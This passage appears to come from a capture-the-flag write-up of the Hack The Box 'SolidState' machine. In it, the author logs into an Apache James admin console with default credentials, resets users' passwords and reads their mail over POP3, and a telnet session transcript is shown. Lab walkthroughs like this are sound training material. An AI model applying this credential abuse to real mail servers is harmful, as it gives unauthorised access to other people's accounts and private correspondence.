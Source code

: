 Following the documentation for Apache James, I was able to telnet into the administration console using the default creds.

![htb-solidstate-06](/images/htb/solidstate/htb-solidstate-06.png)

Using the `help` command, I see that I can get a list of all the users, and set their passwords. One by one I begin to change each user's password and used telnet to access their mailboxes.

The user John has an interesting email regarding a new hire, Mindy ...

```bash
root@kali:~/htb/solidstate# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
> USER john
+OK
> PASS john
+OK Welcome john
> list
+OK 1 743
1 743
.
> retr 1

+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James

.

```

